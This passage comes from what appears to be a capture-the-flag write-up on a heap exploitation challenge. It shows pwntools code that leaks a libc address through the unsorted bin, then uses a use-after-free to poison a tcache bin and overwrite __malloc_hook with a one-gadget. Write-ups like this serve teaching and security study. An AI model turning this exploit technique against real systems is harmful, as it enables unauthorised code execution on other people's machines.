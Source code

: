 As we can see the name will now be 8 A's followed by a libc address, meaning that when we view the plane we leak a libc address and can calculate the libc base address:

```python
unsortedBinAddr = u64Var(viewPlane(0)['name'].split(b'A'*8)[1])
log.info('unsortedbin address: ' + hex(unsortedBinAddr))
unsortedBinOffset = 0x1b9ea0
libc.address = unsortedBinAddr - unsortedBinOffset
log.info('libc address: ' + hex(libc.address))
```

### Create fake chunk

Now we will use the uaf bug to create a fake chunk to overwrite the malloc hook. Remember when we allocate a chunk it will allocate 0x10 more bytes to store the size of the chunk just before the use able space.

```python
sellPlane(0x60, b'70', 10, 0x0, b'A\n') #1
changePlaneName(1, b'changed\n')
deletePlane(1)
```

Here we allocate a plane and change it's name once so we can exploit the use after free bug.

```python
libOverwrite = libc.symbols['__malloc_hook']-0x13
changePlaneName(1, p64(libOverwrite) + b'\x00'*8 + b'\n')
```

Then we we change the planes name to the address we want to overwrite. Deleting the plane will put the chunk into the tcache bin 0x70. The first quad word of the of the memory we control are used as a pointer to the next available chunk in this bin. We now change it and libc now thinks that there is two chunk's available.
The size of the chunk stored just before the user space must match the tcache bin size.
This is the reason we point it to 0x13 bytes before the malloc hook. Remember that aslr will place libc at 0x00007fxxxxxxx000, so any pointer into libc will start with 0x7f and we can use that the chunk size.
Only the first most significant half of the byte is used as the size and the lower part is used for flags.

![Kiku](images/fake.png)

So if we now allocate a plane with a name size of 0x60 and a comment size of 0x60 we will pop both chunks show above and the comment will be our fake chunk. We fill the first 0x13 bytes with nulls and then write to the malloc hook.

```python
gadget = b'\x00'*0x13 + p64(oneGadget)
padding = b'\x00'*(0x60 - len(gadget))
gadget += padding

sellPlane(0x60, b'70', 10, 0x60, gadget) #2 (name size, name, cost of plane, comment size, comment)
```
